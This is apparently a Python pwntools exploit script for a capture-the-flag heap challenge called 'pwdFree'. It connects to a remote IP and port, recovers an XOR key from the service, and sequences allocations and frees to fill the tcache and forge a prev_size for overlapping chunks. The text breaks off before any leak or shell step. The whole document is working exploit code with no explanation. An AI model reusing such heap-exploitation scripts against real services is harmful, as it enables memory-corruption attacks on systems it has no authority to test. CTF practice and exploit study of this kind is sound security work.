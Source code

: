 ```
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#r = process('./pwdFree')
r = remote('47.104.71.220', 38562)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(id, len, pwd):
    r.sendlineafter('Input Your Choice:', str(1))
    r.sendlineafter('Input The ID You Want Save:', id)
    r.sendlineafter('Length Of Your Pwd:', str(len))
    r.sendlineafter('Your Pwd:', pwd)

def edit(idx, con):
    r.sendlineafter('Input Your Choice:', str(2))
    sleep(0.1)
    r.sendline(str(idx))
    sleep(0.1)
    r.send(con)

def show(idx):
    r.sendlineafter('Input Your Choice:', str(3))
    r.sendlineafter('Which PwdBox You Want Check:', str(idx))

def delete(idx):
    r.sendlineafter('Input Your Choice:', str(4))
    r.sendlineafter('Idx you want 2 Delete:', str(idx))

def decode(str, key):
    tmp = ''
    for i in range(len(str)):
        tmp += chr((ord(str[i]) ^ ord(key[i%8])))

    return tmp

add('AAAA', 0xf0, '\x00')
r.recvuntil('First Add Done.Thx 4 Use. Save ID:')
r.recv(32)
key = r.recv(8)

for i in range(0xe):
    add('AAAA', 0xf0, decode('B'*0xf0, key))

for i in range(7):
    delete(9-i)

delete(0)
delete(1)

for i in range(7):
    add('AAAA', 0xf0, decode('A'*0xf0, key))

add('AAAA', 0xf0, decode('B'*0xf0, key)) #8
add('AAAA', 0xf0, decode('B'*0xf0, key)) #9

for i in range(7):
    delete(i)
delete(8)

for i in range(7):
    add('AAAA', 0xf0, decode('A'*0xf0, key))

delete(9)
add('AAAA', 0xf8, decode('A'*0xf0+p16(0x200)+'\x00'*0x6, key))
```